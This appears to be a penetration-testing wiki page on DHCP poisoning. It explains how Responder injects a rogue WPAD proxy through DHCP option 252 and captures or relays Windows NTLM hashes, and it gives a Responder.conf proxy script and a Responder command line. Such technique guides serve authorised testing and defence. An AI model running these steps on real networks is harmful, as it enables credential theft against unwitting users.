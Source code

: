 # DHCP Poisoning

When a workstation reboots or plugs into a network, a broadcast DHCP request is emitted. It's goal is to ask for network settings like an IPv4 address.

> Windows uses several custom DHCP options such as NetBIOS, WINS, WPAD settings. When a workstation sends a DHCP request to get its networking settings, these additional settings can be included in the DHCP answer to facilitate straightforward connectivity and name resolution. _\(_[_Laurent Gaffié_](https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html)_\)_

​[DHCP's option 252](https://docs.microsoft.com/en-us/previous-versions/tn-archive/bb794881%28v=technet.10%29) provides Windows machines with a WPAD configuration. An attacker able to answer broadcast DHCP queries faster than the legit DHCP server can inject any network setting on the requesting client.

## Exploitation

​[Responder](https://github.com/SpiderLabs/Responder) \(Python\) \(from v3.0.7.0\) can be used to operate DHCP poisoning in the following manner.



* race against the legit DHCP server to answer `DHCP REQUEST` messages
* sent a DHCP ACK response with a rogue WPAD server address in `option 252` in the network parameters, with a short lease \(10 seconds\)
* wait the lease to expire so that the poisoned client asks for a new lease
* let the client obtain a legitimate lease from the real DHCP server, allowing the client to obtain the right network settings and have connectivity
* the injected WPAD server address will stay until the client reboots \(that's how Windows works \)
* with the injected WPAD server address, the Windows client will try to obtain the wpad.dat file on the rogue WPAD. Responder will then require the client to authenticate.

In order to start DHCP poisoning for WPAD spoofing with Responder, the `Responder.conf` file needs to be tweaked.



```text
WPADScript = function FindProxyForURL(url, host){if ((host == "localhost") || shExpMatch(host, "localhost.*") ||(host == "127.0.0.1") || isPlainHostName(host)) return "DIRECT"; if (dnsDomainIs(host, "ProxySrv")||shExpMatch(host, "(*.ProxySrv|ProxySrv)")) return "DIRECT"; return 'PROXY ProxySrv:3128; PROXY ProxySrv:3141; DIRECT';}
```

The `ProxySrv` variable \(in red in the following screenshot\) needs to be replace by the rogue WPAD server \(i.e. Responder IP address\).

![](../../../.gitbook/assets/image%20%28261%29.png)

The attack can then be started with the `-d/--DHCP` argument.

The `--wredir` and `--ProxyAuth` need to be added to force the Windows client to authenticate once the `wpad.dat` is accessed in order to capture hashes.

```text
responder --interface "eth0" --wredir --ProxyAuth --NBTNSdomain --verbose
```

The proxy auth NTLM authentication can either be captured with Responder with the command line above or relayed with [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) \(by using the `--http-port 3128` argument. The `--wredir` and `--ProxyAuth` arguments need to be removed from Responder's command line.\).

{% embed url="https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html" %}



